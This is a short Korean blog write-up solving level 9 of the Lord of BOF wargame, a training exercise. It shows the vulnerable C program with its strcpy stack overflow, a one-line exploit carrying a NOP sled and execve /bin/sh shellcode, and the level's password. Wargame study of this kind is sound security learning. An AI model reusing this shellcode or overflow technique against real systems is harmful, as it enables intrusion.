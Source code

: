 ```yaml
---
date: '2022-10-21'
before : '2022-10-10'
after : '2022-10-22'
title: '시스템 해킹(24) : FTZ LOB LEVEL 9'
categories: ['C-SEC', 'KOR', 'webhack']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기__ __전에__

물론 HTB를 시작하긴 했지만, pwn공부도 천천히, 또 꾸준하게 해 나갈 생각이다. 결국 HTB에서도 pwn 기법을 사용할 일도 있거니와, 어차피 내년 초 CCNA 딸 때까지는 계속해서 양쪽의 기법에 익숙해지고, 또 여러가지 머신을 풀어나가며 해킹 프로세스도 손에 익히는 시간을 가질 예정이다. 


### 1. Level 9 : Troll -> Vampire

```
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```

```
./vampire `python -c 'print "D"*44+"\x28\xf3\xfe\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
비밀번호 : music world
 ---
## Source

- 해커스쿨 FTZ
- Me!
